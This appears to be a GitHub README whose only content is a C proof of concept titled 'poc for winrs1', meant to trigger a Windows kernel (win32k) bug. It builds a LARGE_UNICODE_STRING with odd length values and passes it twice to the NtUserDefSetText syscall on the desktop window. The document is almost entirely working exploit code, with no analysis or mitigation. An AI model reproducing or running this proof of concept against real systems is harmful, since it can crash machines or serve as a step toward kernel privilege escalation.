

# poc for winrs1


```c
#include <windows.h>
#include <stdlib.h>


typedef struct _LARGE_UNICODE_STRING {
    ULONG Length;
    ULONG MaximumLength : 31;
    ULONG bAnsi : 1;
    PWSTR Buffer;
} LARGE_UNICODE_STRING, *PLARGE_UNICODE_STRING;

BOOL __stdcall NtUserDefSetText(__in HWND hWnd , __in LARGE_UNICODE_STRING* plsWindowText);

VOID RtlInitLargeUnicodeString(
							   PLARGE_UNICODE_STRING plstr,
							   LPCWSTR psz,
							   UINT cchLimit)
{
    plstr->Buffer = (PWSTR)psz;
    plstr->bAnsi = FALSE;
	
    plstr->Length = cchLimit;
    plstr->MaximumLength = cchLimit;
}

int __cdecl wmain(int nArgc, WCHAR** Argv)
{
	HWND					hWnd = NULL;
	LARGE_UNICODE_STRING*	plsEvil = NULL;

	do 
	{
		hWnd = GetDesktopWindow();

		plsEvil = (LARGE_UNICODE_STRING*)malloc( sizeof(LARGE_UNICODE_STRING) + 1024 );
		if ( NULL == plsEvil)
		{
			break;
		}

		RtlZeroMemory(plsEvil , sizeof(LARGE_UNICODE_STRING) + 1024 );

		plsEvil->Length = 969;
		plsEvil->MaximumLength = plsEvil->Length;
		plsEvil->bAnsi = 0;
		plsEvil->Buffer = (WCHAR*)( (UCHAR*)plsEvil + sizeof(LARGE_UNICODE_STRING) );
	
		
		plsEvil->Length = 969;
		plsEvil->MaximumLength = plsEvil->Length;
		NtUserDefSetText( hWnd , plsEvil);

		plsEvil->Length = 343;
		plsEvil->MaximumLength = plsEvil->Length;
		NtUserDefSetText( hWnd , plsEvil);

	} while (FALSE);

	if ( NULL != plsEvil)
	{
		free(plsEvil);
		plsEvil = NULL;
	}

	return 0;
}

```

